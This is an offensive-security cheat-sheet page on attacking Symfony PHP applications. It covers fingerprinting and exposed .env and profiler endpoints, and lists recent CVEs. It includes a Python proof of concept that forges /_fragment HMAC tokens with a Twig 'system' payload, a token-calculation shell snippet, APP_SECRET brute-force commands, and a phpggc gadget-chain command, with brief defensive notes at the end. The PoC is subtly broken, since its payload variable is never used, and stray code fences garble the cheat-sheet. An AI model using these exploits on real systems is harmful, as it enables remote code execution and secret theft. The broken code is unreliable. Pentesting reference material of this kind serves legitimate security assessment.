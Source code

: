 # Symfony


Symfony is one of the most widely-used PHP frameworks and regularly appears in assessments of enterprise, e-commerce and CMS targets (Drupal, Shopware, Ibexa, OroCRM … all embed Symfony components).  This page collects offensive tips, common mis-configurations and recent vulnerabilities you should have on your checklist when you discover a Symfony application.

> Historical note: A large part of the ecosystem still runs the **5.4 LTS** branch (EOL **November 2025**).  Always verify the exact minor version because many 2023-2025 security advisories only fixed in patch releases (e.g. 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP response headers: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` or cookies starting with `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Source code leaks (`composer.json`, `composer.lock`, `/vendor/…`) often reveal the exact version:
  ```bash
  curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
  ```
* Public routes that only exist on Symfony:
  * `/_profiler`   (Symfony **Profiler** & debug toolbar)
  * `/_wdt/<token>` (“Web Debug Toolbar”)  
  * `/_error/{code}.{_format}` (pretty error pages)  
  * `/app_dev.php`, `/config.php`, `/config_dev.php` (pre-4.0 dev front-controllers)
* Wappalyzer, BuiltWith or ffuf/feroxbuster wordlists: `symfony.txt` → look for `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Interesting files & endpoints
| Path | Why it matters |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Frequently mis-deployed → leaks `APP_SECRET`, DB creds, SMTP, AWS keys |
| `/.git`, `.svn`, `.hg` | Source disclosure → credentials + business logic |
| `/var/log/*.log`, `/log/dev.log` | Web-root mis-configuration exposes stack-traces |
| `/_profiler` | Full request history, configuration, service container, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Entry point used by ESI/HInclude.  Abuse possible once you know `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | PHPUnit RCE if accessible (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & sometimes leak exception traces |

---

## High-impact Vulnerabilities (2023-2025)

### 1. APP_SECRET disclosure ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** originally, but *still* appears on modern targets when debug is left enabled or `.env` is exposed.
* Once you know the 32-char `APP_SECRET`, craft an HMAC token and abuse the internal `render()` controller to execute arbitrary Twig:
  ```python
  # PoC – requires the secret
  import hmac, hashlib, requests, urllib.parse as u
  secret = bytes.fromhex('deadbeef…')
  payload = "{{['id']|filter('system')}}"   # RCE in Twig
  query = {
      'template': '@app/404.html.twig',
      'filter': 'raw',
      '_format': 'html',
      '_locale': 'en',
      'globals[cmd]': 'id'
  }
  qs = u.urlencode(query, doseq=True)
  token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
  r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
  print(r.text)
  ```
* Excellent write-up & exploitation script: Ambionics blog (linked in References).

### 2. Windows Process Hijack – CVE-2024-51736
* The `Process` component searched the current working directory **before** `PATH` on Windows.  An attacker able to upload `tar.exe`, `cmd.exe`, etc. in a writable web-root and trigger `Process` (e.g. file extraction, PDF generation) gains command execution.
* Patched in 5.4.50, 6.4.14, 7.1.7.

### 3. Session-Fixation – CVE-2023-46733
* Authentication guard reused an existing session ID after login.  If an attacker sets the cookie **before** the victim authenticates, they hijack the account post-login.

### 4. Twig sandbox XSS – CVE-2023-46734
* In applications that expose user-controlled templates (admin CMS, email builder) the `nl2br` filter could be abused to bypass the sandbox and inject JS.

### 5. Symfony 1 gadget chains (still found in legacy apps)
* `phpggc symfony/1 system id` produces a Phar payload that triggers RCE when an unserialize() happens on classes such as `sfNamespacedParameterHolder`.  Check file-upload endpoints and `phar://` wrappers.

[[../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md]]

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
```
### Bruteforce weak `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
```
### RCE via exposed Symfony Console
If `bin/console` is reachable through `php-fpm` or direct CLI upload:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
```Use deserialization gadgets inside the cache directory or write a malicious Twig template that will be executed on the next request.

---

## Defensive notes
1. **Never deploy debug** (`APP_ENV=dev`, `APP_DEBUG=1`) to production; block `/app_dev.php`, `/_profiler`, `/_wdt` in the web-server config.
2. Store secrets in env vars or `vault/secrets.local.php`, *never* in files accessible through the document-root.
3. Enforce patch management – subscribe to Symfony security advisories and keep at least the LTS patch-level.
4. If you run on Windows, upgrade immediately to mitigate CVE-2024-51736 or add a `open_basedir`/`disable_functions` defence-in-depth.

---

### Useful offensive tooling
* **ambionics/symfony-exploits** – secret-fragment RCE, debugger routes discovery.
* **phpggc** – Ready-made gadget chains for Symfony 1 & 2.
* **sf-encoder** – small helper to compute `_fragment` HMAC (Go implementation).


## References
* [[https://www.ambionics.io/blog/symfony-secret-fragment|Ambionics – Symfony “secret-fragment” Remote Code Execution]]
* [[https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class|Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component]]

